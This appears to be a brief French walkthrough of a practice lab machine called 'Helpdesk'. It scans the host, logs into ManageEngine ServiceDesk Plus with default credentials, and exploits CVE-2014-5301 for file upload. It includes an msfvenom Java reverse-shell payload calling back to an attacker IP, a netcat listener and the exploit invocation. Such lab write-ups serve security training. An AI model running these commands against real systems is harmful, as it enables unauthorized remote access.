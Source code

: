 # Helpdesk

    sudo nmap -p- -sV -T5 192.168.205.43
    sudo masscan -p1-65535,U:1-65535 --rate=1000 192.168.205.43 --tun0
    sudo /home/timothe/.local/bin/autorecon 192.168.205.43
Scans classiques.    

On voit un CMS ("ManageEngine ServiceDesk Plus" version 7.6.0) sur le site http://192.168.197.43:8080/ et une simple recherche Google suffit à trouver les credentials par défaut de ce CMS. Une deuxième recherche Google suffit à trouver pas mal d'exploits critiques, dont plusieurs XSS. Mais le point le plus intéressant est le CVE-2014-5301 qui permet directement l'upload arbitraire de fichiers. Encore une fois je me suis dirigé vers une version sans Metasploit pour mieux me préparer à l'OSCP.

Voici une implémentation en Python : https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py

    vim exploit_CVE-2014-5301_ManageEngine.py
    msfvenom -p java/shell_reverse_tcp LHOST=192.168.45.234 LPORT=9999 -f war > shell.war
    rlwrap nc -nvlp 9999
    python3 exploit_CVE-2014-5301_ManageEngine.py 192.168.197.43 8080 administrator administrator shell.war
    ...
    C:\ManageEngine\ServiceDesk\bin> type C:\Users\Administrator\Desktop\proof.txt

